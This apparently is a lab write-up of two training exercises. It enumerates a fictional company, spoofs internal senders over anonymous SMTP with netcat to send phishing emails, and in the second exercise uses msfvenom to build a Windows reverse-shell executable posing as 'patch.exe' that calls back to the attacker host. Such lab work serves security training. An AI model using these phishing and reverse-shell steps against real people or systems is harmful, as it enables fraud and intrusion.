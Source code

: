 
# 13.3.7.4
On the target VM #1 enumerate the victim's company website and identify the person working in HR.  
The objective of this challenge is to mount a social engineering attack against HR.  
The victim machine is running an SMTP server that can be used to send company emails.  
The SMTP server allows anonymous logins. Research how to interact with the SMTP server using Netcat.  
Then, send a phishing email to the HR employee that contains keywords "job application".  
Include a link to the attacker's webserver in the email body. Once the victim clicks on the malicious link,  
capture the browser's user-agent string. The flag is contained within the user-agent string.

Enum:
```bash
nmap -Pn 192.168.231.55  
  
PORT     STATE SERVICE  
25/tcp   open  smtp  
8080/tcp open  http-proxy
```

Find people & email   192168.231.55:8080 :

| Owen Lynch    | Layla Hale   | Tony Harper       | Ross Murray    |
| ------------- | ------------ | ----------------- | -------------- |
| CEO           | HR           | Sales & Contracts | IT Support\    |
| olynch@victim | lhale@victim | tharper@victim    | rmurray@victim |
| 202-555-0188  | 202-555-0182 | 202-555-0190      | 202-555-1051   |

Connect to SMTP & email:
```bash
nc -C 192.168.231.55 25  
  
220 VICTIM Microsoft ESMTP MAIL Service, Version: 10.0.17763.1697 ready at  Fri, 9 Dec 2022 20:22:22 -0500  
  
HELO  
  
250 VICTIM Hello [192.168.119.231]  
  
MAIL FROM: tharper@victim  
  
250 2.1.0 tharper@victim....Sender OK  
  
RCPT TO: lhale@victim  
  
250 2.1.5 lhale@victim   
  
DATA  
  
354 Start mail input; end with <CRLF>.<CRLF>  
  
Subject: job application  
job application  
http://192.168.119.231/index.html  
.  
  
250 2.6.0 <VICTIM8CQ9d7vvktTP400000005@VICTIM> Queued mail for delivery  
  
QUIT
```


# 13.3.7.5
On the target VM #2 enumerate the victim's company website and identify employees working in IT and Sales departments.  
The objective of this challenge is to mount a social engineering attack against the person in sales.  
The victim machine is running an SMTP server that can be used to send company emails. The SMTP server allows anonymous logins.  
Research how to interact with the SMTP server using Netcat. Then, send a phishing email **from the IT person** **to the employee in sales** that contains keywords **"urgent" and "patch"**.  
Create and host a **Windows PE payload** (_.exe_ executable) and include a link to it in the email body.  
If your email is sent as instructed, the victim user will open it, click on the link, download the malicious executable, and run it.  
Once you have obtained a reverse shell, retrieve the flag located on the Administrator user's desktop.

So, similar approach to above only using **msfvenom** for the payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.231 LPORT=4444 -f exe -o patch.exe
```
	Same ppl as above  
  
Start **nc** listener on the port ^  
  
Connect to SMTP & email:
```bash
220 VICTIM Microsoft ESMTP MAIL Service, Version: 10.0.17763.1697 ready at  Fri, 9 Dec 2022 20:40:00 -0500   
  
HELO  
  
250 VICTIM Hello [192.168.119.231]  
  
MAIL FROM: rmurray@victim  
  
250 2.1.0 rmurray@victim....Sender OK  
  
RCPT TO: tharper@victim  
  
250 2.1.5 tharper@victim   
  
DATA  
  
354 Start mail input; end with <CRLF>.<CRLF>  
  
Subject: urgent patch  
urgent patch  
http://192.168.119.231/patch.exe  
.  
  
250 2.6.0 <VICTIMFRaqbC8wSA1Xv00000002@VICTIM> Queued mail for delivery  
  
QUIT  
  
221 2.0.0 VICTIM Service closing transmission channel
```

Once rev-shell's connected:
```powershell
type C:\Users\Administrator\Desktop\flag.txt
```
